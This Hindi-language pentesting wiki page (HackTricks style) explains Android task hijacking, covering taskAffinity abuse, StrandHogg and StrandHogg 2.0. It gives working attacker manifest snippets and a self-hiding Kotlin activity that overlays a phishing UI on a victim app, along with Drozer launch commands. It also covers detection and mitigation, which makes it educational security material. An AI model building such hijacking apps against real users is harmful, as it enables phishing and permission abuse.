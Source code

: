 # Android Task Hijacking

{{#include ../../banners/hacktricks-training.md}}

## Task, Back Stack and Foreground Activities

Android में, एक **task** मूल रूप से गतिविधियों का एक सेट है जिससे उपयोगकर्ता एक विशिष्ट कार्य पूरा करने के लिए इंटरैक्ट करते हैं, जो एक **back stack** के भीतर व्यवस्थित होता है। यह स्टैक गतिविधियों को इस आधार पर क्रमबद्ध करता है कि वे कब खोली गई थीं, सबसे हाल की गतिविधि को शीर्ष पर **foreground activity** के रूप में प्रदर्शित करता है। किसी भी समय, केवल यह गतिविधि स्क्रीन पर दिखाई देती है, जिससे यह **foreground task** का हिस्सा बन जाती है।

गतिविधि संक्रमणों का त्वरित विश्लेषण यहाँ है:

- **Activity 1** एकमात्र गतिविधि के रूप में foreground में शुरू होती है।
- **Activity 2** को लॉन्च करने से **Activity 1** को back stack में धकेल दिया जाता है, जिससे **Activity 2** foreground में आ जाती है।
- **Activity 3** शुरू करने से **Activity 1** और **Activity 2** स्टैक में और पीछे चले जाते हैं, **Activity 3** अब सामने होती है।
- **Activity 3** को बंद करने से **Activity 2** फिर से foreground में आ जाती है, जो Android के सुव्यवस्थित कार्य नेविगेशन तंत्र को प्रदर्शित करती है।

![https://developer.android.com/images/fundamentals/diagram_backstack.png](<../../images/image (698).png>)

---

## Task affinity attacks

`taskAffinity` Android को बताता है कि एक `Activity` किस task से *पसंद* करेगी। जब दो गतिविधियाँ समान affinity साझा करती हैं, **Android को उन्हें एक ही back-stack के भीतर मर्ज करने की अनुमति है, भले ही वे विभिन्न APKs से आती हों**।

यदि एक हमलावर उस स्टैक के **root** पर एक दुर्भावनापूर्ण गतिविधि रख सकता है, तो हर बार जब पीड़ित वैध एप्लिकेशन खोलता है, तो दुर्भावनापूर्ण UI वह पहली चीज होगी जो उपयोगकर्ता देखता है - फ़िशिंग या दुरुपयोग की अनुमति अनुरोधों के लिए बिल्कुल सही।

हमले की सतह कई डेवलपर्स की सोच से अधिक व्यापक है क्योंकि **हर गतिविधि स्वचालित रूप से एप्लिकेशन पैकेज नाम के बराबर एक affinity विरासत में लेती है** (जब तक डेवलपर `android:taskAffinity=""` सेट नहीं करता)। इसलिए *कुछ न करना* पहले से ही Android संस्करण 11 से पहले कार्य हाइजैकिंग के लिए ऐप को खुला छोड़ देता है।

### Classic "singleTask / StrandHogg" scenario

1. हमलावर एक गतिविधि घोषित करता है:
```xml
<activity android:name=".EvilActivity"
android:exported="true"
android:taskAffinity="com.victim.package"
android:launchMode="singleTask" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
2. दुर्भावनापूर्ण ऐप को एक बार शुरू किया जाता है ताकि कार्य (धोखाधड़ी वाली affinity के साथ) हाल की गतिविधियों में मौजूद हो।
3. जब उपयोगकर्ता बाद में असली एप्लिकेशन खोलता है, तो Android पाता है कि पहले से ही एक कार्य है जिसका **root affinity पैकेज से मेल खाता है** और बस उस कार्य को foreground में लाता है।
4. हमलावर का UI पहले दिखाया जाता है।

### Default–Affinity (no `singleTask`) variant  – Caller ID case study

**Caller ID (caller.id.phone.number.block)** एप्लिकेशन में रिपोर्ट की गई भेद्यता दिखाती है कि हमला *भी* डिफ़ॉल्ट `standard` लॉन्च मोड के खिलाफ काम करता है:

1. हमलावर एप्लिकेशन एक नकली रूट गतिविधि बनाता है और तुरंत खुद को छिपा लेता है:
```kotlin
class HackActivity : AppCompatActivity() {
override fun onCreate(savedInstanceState: Bundle?) {
super.onCreate(savedInstanceState)
moveTaskToBack(true)   // कार्य को हाल की गतिविधियों में रखें लेकिन दृष्टि से बाहर
}
}
```
2. मैनिफेस्ट को केवल पीड़ित पैकेज को `taskAffinity` में कॉपी करने की आवश्यकता है:
```xml
<activity android:name=".HackActivity"
android:exported="true"
android:taskAffinity="com.caller.id.phone.number.block" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
3. जैसे ही उपयोगकर्ता दुर्भावनापूर्ण ऐप को **एक बार** स्थापित और खोलता है, एक कार्य जिसका affinity पीड़ित पैकेज के बराबर है (लेकिन बैकग्राउंड में बैठा है) मौजूद होता है।
4. जब असली Caller ID एप्लिकेशन लॉन्च किया जाता है, तो Android उस कार्य का पुनः उपयोग करता है और `HackActivity` को foreground में लाता है → फ़िशिंग विंडो/अनुमति दुरुपयोग।

> NOTE: **Android 11 (API 30)** से शुरू होकर, सिस्टम डिफ़ॉल्ट रूप से एक ही UID का हिस्सा नहीं होने वाले दो पैकेजों को एक ही कार्य में नहीं रखता, इस विशेष रूप को कम करता है। पुराने संस्करणों में भेद्यता बनी रहती है।

---

### StrandHogg 2.0 (CVE-2020-0096) – Reflection-based task hijack

Google के मई-2020 सुरक्षा बुलेटिन ने एक अधिक उन्नत रूप को ठीक किया जिसे **StrandHogg 2.0** कहा जाता है। यह शोषण **`taskAffinity` पर निर्भर नहीं करता**; इसके बजाय यह *reflection* का उपयोग करके हमलावर की गतिविधि को *हर* चल रहे कार्य के शीर्ष पर गतिशील रूप से डालता है, Android 11 द्वारा पेश की गई "shared-UID" प्रतिबंध को पूरी तरह से बायपास करता है।

मुख्य बिंदु:

* एक शून्य-अनुमति दुर्भावनापूर्ण ऐप, एक बार खोले जाने पर, चल रहे कार्यों के माध्यम से पुनरावृत्ति कर सकता है और **re-parent** करने के लिए छिपी हुई APIs को कॉल कर सकता है।
* चूंकि गतिविधि रन-टाइम के बाद डाली जाती है, न तो `launchMode` और न ही स्थैतिक मैनिफेस्ट विश्लेषण हमले का पूर्वानुमान कर सकता है।
* **Android 8.0/8.1/9** (मई 2020 SPL) में एक चेक को बैक-पोर्ट करके पैच किया गया। **Android 10 और बाद के संस्करण प्रभावित नहीं हैं।**

प्री-पैच किए गए उपकरणों पर पहचान `adb shell dumpsys activity activities` के साथ की जा सकती है और संदिग्ध गतिविधियों की निगरानी की जा सकती है जिनका पैकेज नाम कार्य की *affinity* से भिन्न होता है।

विरासत उपकरणों के लिए शमन क्लासिक Task Hijacking के समान है **प्लस** रन-टाइम सत्यापन (जैसे [`ActivityManager#getRunningTasks`](https://developer.android.com/reference/android/app/ActivityManager#getRunningTasks(int)) को कॉल करना और अपने पैकेज नाम को मान्य करना)।

---

## Detection & Exploitation checklist

1. **Static review** – लक्ष्य APK से `AndroidManifest.xml` खींचें और जांचें कि प्रत्येक `<activity>` (या वैश्विक `<application>` तत्व) में `android:taskAffinity=""` (खाली) **या** एक अनुकूलित मान है। उपकरण जैसे:
```bash
# Using apkanalyzer (Android SDK)
apkanalyzer manifest print app.apk | grep -i taskaffinity

# Using AXMLPrinter2
java -jar AXMLPrinter2.jar AndroidManifest.xml | grep taskAffinity
```
2. **Dynamic review** – डिवाइस पर लक्ष्य ऐप खोलें और कार्यों की सूची बनाएं:
```bash
adb shell dumpsys activity activities | grep -A3 "TASK" | grep -E "Root|affinity"
```
एक कार्य जिसका रूट affinity पीड़ित पैकेज के बराबर है लेकिन जिसका शीर्ष गतिविधि *विभिन्न* पैकेज से संबंधित है, एक लाल झंडा है।
3. ऊपर वर्णित अनुसार एक दुर्भावनापूर्ण ऐप तैयार करें, या **[Drozer](https://github.com/WithSecureLabs/drozer)** का उपयोग करें:
```bash
drozer console connect
run app.activity.start --component com.victim/.MainActivity --action android.intent.action.MAIN
run app.activity.info com.victim
```

---

## Mitigation

डेवलपर्स को चाहिए:

* `<application>` स्तर पर स्पष्ट रूप से `android:taskAffinity=""` सेट करें (अनुशंसित) **या** प्रत्येक गतिविधि को एक अद्वितीय, निजी affinity दें।
* अत्यधिक संवेदनशील स्क्रीन के लिए, उपरोक्त को `android:launchMode="singleInstance"` या आधुनिक [`setLaunchMode`](https://developer.android.com/reference/android/content/pm/ActivityInfo#launchMode) सुरक्षा के साथ मिलाएं।
* ऐप के `targetSdkVersion` को अपडेट करें और **Android 11** व्यवहार परिवर्तन लागू करें जहाँ कार्य डिफ़ॉल्ट रूप से पैकेजों के बीच साझा नहीं होते हैं।
* **Android 12 (API 31) या उच्चतर** को लक्षित करें ताकि अनिवार्य `android:exported` विशेषता डेवलपर्स को हर बाहरी-प्रवेश योग्य घटक का ऑडिट करने के लिए मजबूर करे।
* रन-टाइम आत्म-रक्षा पर विचार करें: समय-समय पर `ActivityTaskManager` को क्वेरी करें ताकि यह सुनिश्चित हो सके कि आपकी शीर्ष गतिविधि का पैकेज आपके अपने से मेल खाता है।

---

## Related UI-Hijacking techniques

Task hijacking अक्सर **tapjacking** (ओवरले-आधारित UI धोखाधड़ी) के साथ मिलाया जाता है या इसे प्रतिस्थापित किया जाता है। 2025 **TapTrap** अनुसंधान ने दिखाया कि पूरी तरह से पारदर्शी *एनिमेशन-चालित* गतिविधियाँ Android 12–14 में पेश की गई ओवरले-टच प्रतिबंधों को बायपास कर सकती हैं और फिर भी उपयोगकर्ताओं को खतरनाक अनुमतियाँ देने के लिए धोखा दे सकती हैं। जबकि TapTrap सख्ती से *task* हाइजैकिंग नहीं है, अंतिम लक्ष्य (फ़िशिंग क्लिक) समान है - इसलिए आधुनिक आकलनों को दोनों हमले की सतहों की जांच करनी चाहिए।

---

## References

- [https://blog.dixitaditya.com/android-task-hijacking/](https://blog.dixitaditya.com/android-task-hijacking/)
- [https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html](https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html)
- [Android Manifest Misconfiguration Leading to Task Hijacking in Caller ID app](https://github.com/KMov-g/androidapps/blob/main/caller.id.phone.number.block.md)
- [https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06](https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06)
- [Promon – StrandHogg 2.0 (CVE-2020-0096) technical write-up](https://promon.io/resources/downloads/strandhogg-2-0-new-serious-android-vulnerability)
- [USENIX 2025 – TapTrap: Animation-Driven Tapjacking on Android](https://www.usenix.org/conference/usenixsecurity25/presentation/beer)

{{#include ../../banners/hacktricks-training.md}}
